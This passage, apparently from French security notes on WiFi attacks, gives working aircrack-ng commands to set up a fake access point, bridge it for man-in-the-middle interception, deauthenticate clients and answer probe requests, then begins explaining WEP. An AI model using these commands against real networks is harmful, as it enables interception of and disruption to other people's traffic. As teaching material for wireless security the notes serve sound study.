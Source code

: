 ``` bash
airbase-ng --essid Wireless_Test -a AA:AA:AA:AA:AA:AA -c 3 wlan0mon
```

Il est ensuite possible de se mettre en man in the middle en créant un pont entre l'interface du fake AP et une connexion au réseau. Lors de la création de l'AP, une interface **at0** apparaît. Il est possible de créer un pont entre celle-ci et eth0 (ou autre):

``` bash
brctl addbr mitm
brctl addif mitm eth0
brctl addif mitm at0
```

Il faut éventuellement installer bridge-utils

``` bash
apt-get install bridge-utils
```

Si on cherche à usurper un point d'accès déjà présent, on peut forcer la déconnexion des utilisateurs présents sur celui-ci:

``` bash
aireplay-ng --deauth 0 -a 00:21:91:D2:8E:25 wlan0mon # envoi en broadcast
aireplay-ng --deauth 0 -a 00:21:91:D2:8E:25 -c AB:CD:EF:01:12:12 wlan0mon # cible un client précis
```

### Répondre aux probes

Les clients envoient régulièrement des **probes** pour identifier si les réseaux auxquels ils ont l'habitude de se connecter sont présents. Il est possible d'utiliser ce comportement pour un attaquer un client en répondant au probe (ceci est notamment dû au fait que le client n'authentifie pas l'access point)

On peut faire ceci pour un réseau particulier:

``` bash
airbase-ng --essid Wireless_Test -a AA:AA:AA:AA:AA:AA -c 3 wlan0mon
```

Alternativement on peut répondre à tous les probes request (-P) et ensuite envoyer des beacons frames (-C 10 seconds):

``` bash
airbase-ng -P -C 10 -a AA:AA:AA:AA:AA:AA -c 3 wlan0mon
```

Wired Equivalent Privacy (WEP)
------------------------------

Wired Equivalent Privacy (WEP) est un protocole permettant des échanges WiFi **chiffrés** afin d'éviter l'interception des messages échangés. De plus ce mécanisme permet également de gérer l'authentification auprès de l'AP. Quelques proprités importantes:

-   Les clés WEP font 40 ou 104 bits, on y ajoute un IV de 24 bits (donc 64 ou 128 bits au total).
-   La combinaison IV + WEP est utilisée pour générer une clé de chiffrement, différente à chaque message (l'IV change à chaque message).
-   La clé de chiffrement est utilisée pour chiffrer / déchiffrer le message avec un simple XOR.

